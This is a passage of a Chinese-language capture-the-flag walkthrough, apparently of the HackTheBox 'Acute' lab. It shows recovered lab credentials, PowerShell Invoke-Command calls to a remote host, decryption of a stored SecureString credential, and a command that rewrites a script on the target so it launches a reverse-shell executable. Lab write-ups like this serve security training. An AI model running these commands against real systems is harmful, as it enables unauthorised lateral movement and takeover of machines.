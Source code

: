 把进程迁移到了explorer:

![](/htb_img/WEBRESOURCE1d04ece71a53cad75c59c2dcc83cabe1image.png)

通过qwinsta /server:127.0.0.1命令，可以看到edavies用户，也就是当前用户，使用了远程：

![](/htb_img/WEBRESOURCE3d3e3c87d12ed77d64a16b1c9c5030d5image.png)

使用

![](/htb_img/WEBRESOURCEc10c91c33c3e7f57c708e4b62c9b3906image.png)

![](/htb_img/WEBRESOURCEa4bbe2512f05f52f825ad5a9598db108image.png)

那么这里可以看到几个信息，主机名：atsserver，密码：w3_4R3_th3_f0rce，用户名：acute\imonks:

使用账号密码申请凭据，执行命令：

```
$passwd = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -force
$cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $passwd)
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {whoami} -credential $cred
```

![](/htb_img/WEBRESOURCE8c57785662c70b06d2d10f64141a5e52image.png)

此时应该是在另外一台主机了，重新侦察信息：

![](/htb_img/WEBRESOURCE822a1b5bf9dd011a887773c39683a30bimage.png)

拿到第一个flag和第二个凭据：

$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'

$passwd = $securepasswd | ConvertTo-SecureString

$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)

Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds

这个用户叫做jmorgan，主机名是 Acute-PC01，也就是我们当前的这台主机，看看这个用户的权限：

可以发现是这台机器的管理员用户，也就是说我们可以尝试获取到本台主机的管理员权限，

![](/htb_img/WEBRESOURCE9b6c292f2dd5358bc643c4dcf55dc8bcimage.png)

这时候想到的就是，反弹一个shell回来：

修改原来的代码为：

```
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {((Get-Content "c:\users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','cmd.exe /c c:\utils\cxk2.exe') | set-content -path c:\users\imonks\Desktop\wm.ps1} -credential $cred
```
